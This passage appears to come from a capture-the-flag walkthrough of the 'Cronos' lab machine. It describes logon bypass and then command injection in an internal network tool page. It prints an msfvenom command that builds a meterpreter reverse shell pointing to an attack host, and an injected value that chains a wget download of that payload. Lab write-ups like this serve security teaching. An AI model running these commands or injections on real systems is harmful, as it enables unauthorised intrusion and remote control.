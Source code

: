 See [this file](/cronos/injections.txt) for a list of all working payloads as produced by hydra. 

#### Command injection and initial access 

After bypassing the logon, the site redirected to admin.cronos.htb/welcome.php, which appeared to be some sort of internal network tool. 

[![](/cronos/welcome.png)](/cronos/welcome.png)


Inspecting this, it appeared to use a function like exec() to pass commands to the operating system. This was then tested for command injection, which yielded a success: 

[![](/cronos/injection.png)](/cronos/injection.png)

A shell payload was then created and served from the attack machine via python3: 

```
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=10.10.14.11 LPORT=443 -f elf  > shell.elf

```

Injection was then used to download the payload: 

```
8.8.8.8 & wget http://10.10.14.11/shell.elf
```
